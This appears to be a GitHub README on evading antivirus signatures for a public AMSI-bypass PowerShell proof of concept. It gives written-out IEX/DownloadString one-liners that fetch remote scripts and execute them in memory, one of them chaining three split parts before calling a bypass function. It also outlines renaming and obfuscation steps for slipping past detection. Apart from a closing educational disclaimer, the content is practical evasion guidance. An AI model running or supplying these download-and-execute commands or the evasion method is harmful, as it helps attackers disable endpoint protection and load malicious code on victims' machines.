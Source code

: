 ## Simple AV Bypass Trick: Splitting the Original `POC.ps1` Script

If you try to execute the original `POC.ps1` script using `DownloadString`, it will likely get blocked by antivirus (AV). This happens because the script has been signatured in AV databases after being public for a while. However, the **technique itself is still valid**.

For example, the following command will be blocked by AV:

```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/POC.ps1")
```

## Why This Happens
Antivirus tools flag scripts like POC.ps1 because their content or behavior matches known signatures in their database. Once a script is identified as malicious, the signature is updated, causing AV tools to block it.

## How Attackers Bypass This

Attackers can still leverage the same technique and bypass AV by avoiding signature-based detection. Here’s how they do it:

- Split the Original Script
They split the script into multiple smaller files (e.g., hello1.ps1, hello2.ps1, and hello3.ps1) and then call them sequentially in a single command:

```powershell
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello2.ps1"); IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/V-i-x-x/AMSI-BYPASS/refs/heads/main/AvBypassTricks/hello3.ps1"); MagicBypass;

```

- Modify Variables and Functions
They rename variables, functions, and other identifiers in the script to prevent pattern-matching detection.

- Obfuscate the Code
They obfuscate the code further by encoding strings, breaking lines, or adding unnecessary characters and operations. This makes it harder for AV tools to recognize malicious intent.

## Effectiveness
In practice, splitting the script and applying even minimal obfuscation is often sufficient to evade AV detection. However, modern AV solutions with advanced behavioral analysis may still detect such techniques so the combinations of all 3 techniques can be quite powerfull.


**Disclaimer: This information is shared for educational purposes only to help understand security measures and how to better protect against such attacks.**
